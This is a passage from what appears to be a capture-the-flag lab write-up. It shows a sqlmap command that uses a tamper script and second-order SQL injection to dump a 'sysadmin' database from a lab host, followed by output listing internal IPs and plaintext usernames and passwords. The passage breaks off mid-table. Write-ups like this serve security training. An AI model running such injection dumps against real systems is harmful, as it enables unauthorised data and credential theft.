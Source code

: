 

### Dumping Data

The `--dump` flag will give the entries from a database. By default,
that's the current database in use by the application. There's also a
`--dump-all` which will dump all databases, and a `--exclude-sysdbs`.

But in this case, we want to be a bit more granular. We probably don't
want the `information_schema` database. And we want to be really careful
with the `notes` database, as we've created a bunch of users in it with
each registration.

So let's start with the `sysadmin` database:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D sys
    admin --no-cast
    ...
    Database: sysadmin
    Table: configs
    [13 entries]
    +------------+----------+
    | ip         | server   |
    +------------+----------+
    | 10.0.21.11 | server2  |
    | 10.0.21.12 | server3  |
    | 10.0.21.13 | server4  |
    | 10.0.21.14 | server5  |
    | 10.0.21.15 | server6  |
    | 10.0.21.16 | server7  |
    | 10.0.21.17 | server8  |
    | 10.0.21.18 | server9  |
    | 10.0.21.19 | server10 |
    | 10.0.21.20 | server11 |
    | 10.0.21.21 | server12 |
    | 10.0.21.22 | server13 |
    | 10.0.21.23 | server14 |
    +------------+----------+
    ...
    Database: sysadmin
    Table: users
    [11 entries]
    +--------------+-------------------+
    | username     | password          |
    +--------------+-------------------+
    | admin        | nimda             |
    | cisco        | cisco123          |
    | adminstrator | Pyuhs738?183*hjO! |
    | josh         | tontochilegge     |